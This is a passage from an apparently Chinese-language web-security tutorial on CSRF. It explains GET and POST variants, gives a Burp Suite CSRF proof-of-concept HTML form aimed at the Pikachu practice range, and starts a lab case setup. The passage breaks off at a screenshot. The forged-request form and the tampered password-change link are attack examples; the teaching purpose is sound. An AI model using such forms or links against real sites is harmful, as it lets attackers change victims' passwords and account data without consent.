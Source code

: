 ### 1.5.1. CSRF(GET)型

get型主要是通过URL恶意链接诱导用户点击，当用户处于访问网站的过程中，同时用户又点击了这个链接，那么就会触发修改。

比如当用户正在修改密码，比如修改的URL:/user.php?id=1&password=11111，意思就是用户把密码修改为1111，若攻击者把URL修改为URL:/user.php?id=1&password=123456789，然后通过社工手段进行诱导点击我们修改后的链接，那么当用户访问这个链接后就会把密码修改为123456789。

### 1.5.2. CSRF(POST)型

同样是修改密码但是这次在URL中不会显示密码，而且是在post中，那么当攻击者对该网站进行抓包分析整个数据包的构造，然后把相关的内容修改为其他用户的相关参数，然后同样是诱导用户去点击我们精心准备的WEB界面，那么当点击的时候就会自动进行提交，使其密码再次修改。

例如pikachu上构建的数据内容：

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.150/pikachu/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="boy" />
      <input type="hidden" name="phonenum" value="116266565656" />
      <input type="hidden" name="add" value="nba&#32;lakes" />
      <input type="hidden" name="email" value="kobe&#64;pikachu&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## 1.6. CSRF案例

### 1.6.1. 环境准备

靶机：pikachu靶场

攻击者：Windows10

用户：Windows10

### 1.6.2. CSRF(GET)型案例

kobe用户真正访问pikachu，并且在登录的状态。

![image-20230414083005489](assets/cQSoeZhqdIF7v8B.png)